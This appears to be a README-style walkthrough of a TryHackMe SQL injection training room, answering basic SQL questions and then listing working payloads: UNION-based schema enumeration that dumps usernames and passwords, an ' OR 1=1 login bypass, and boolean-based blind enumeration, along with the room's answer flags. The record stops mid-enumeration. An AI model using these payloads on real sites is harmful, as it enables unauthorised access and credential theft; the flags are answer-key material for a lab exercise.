

<h1 align='center'>:fire: TryHackMe SQL Injection room :fire: </h1>

 
[SQL Injection Room](https://tryhackme.com/room/sqlinjectionlm)

## Task 1: Breif
### Q: What does SQL stand for?
 
#### A: `Structured Query Language` :heavy_check_mark: 

## Task 2: What is database?
### Q: What is the acronym for the software that controls a database?
 
#### A: `DBMS` :heavy_check_mark: 

### Q: What is the name of the grid-like structure which holds the data?
 
#### A: `table` :heavy_check_mark: 

## Task 3: What is SQL?
### Q: What SQL statement is used to retrieve data?
 
#### A: `SELECT` :heavy_check_mark: 

### Q: What SQL clause can be used to retrieve data from multiple tables?
 
#### A: `UNION` :heavy_check_mark: 

### Q: What SQL statement is used to add data?
 
#### A: `INSERT` :heavy_check_mark: 

## Task 4: What is SQL Injection?
### Q: What character signifies the end of an SQL query?
 
#### A: `;` :heavy_check_mark: 

## Task 5: In-Band SQLi
### Q: What is the flag after completing level 1?
    '
 
Try typing an apostrophe `'` after the `id=1` and press enter. And you'll see this returns an SQL error informing you of an error in your syntax. 

    1 UNION SELECT 1,2,3
 
Success,  the error message has gone, and the article is being displayed, but now  we want to display our data instead of the article. 

Now change value `1` to `0` before UNION

    0 UNION SELECT 1,2,3
 
You'll now see the article is just made up of the result from the UNION select returning the column values `1, 2, and 3` 

    0 UNION SELECT 1,2,database()
 
It now shows the name of the database, which is `sqli_one`. 

    0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
 
The information we want to retrieve has changed from table_name to `column_name`, the table we are querying in the information_schema database has changed from tables to `columns`, and we're searching for any rows where the `table_name` column has a value of `staff_users`. 

    0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
 
We get all the columns name of `stuff_users` table

    0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR ' ') FROM staff_users
 
#### A: `THM{SQL_INJECTION_3840}` :heavy_check_mark: 

## Task 6: Blind SQLi - Authentication Bypass
### Q: What is the flag after completing level two? (and moving to level 3)
    username anything and password field ' OR 1=1;--
 
 
#### A: `THM{SQL_INJECTION_9581}` :heavy_check_mark: 

## Task 7: Blind SQLi - Boolean Based
### Q: What is the flag after completing level three?
    admin123' UNION SELECT 1;-- 
 
As the web application has responded with the value taken as false, we can confirm this is the incorrect value of columns. 

    admin123' UNION SELECT 1,2,3;-- 
 
Now that our number of columns has been established, we can work on the  enumeration of the database. 

    admin123' UNION SELECT 1,2,3 where database() like 's%';-- 
 
After many tryed i've found full database name, which is `sqli_three` 

Now we need to enumerate `table names` using a similar method.
    admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'u%';--
 

    admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name='users';--
 
After many tryed i've found full table name, which is `users` 

    admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME !='%username%'; ---
 
I've found a column called `username` under the `users` table and database `sql_three` 

    admin123' UNION SELECT 1,2,3 from users where username like 'a%
 
As you can see username character start with `a`

    admin123' UNION SELECT 1,2,3 from users where username like 'admin%
 
I've found username `admin` 

    admin123' UNION SELECT 1,2,3 from users where username='admin' and password like '3%
 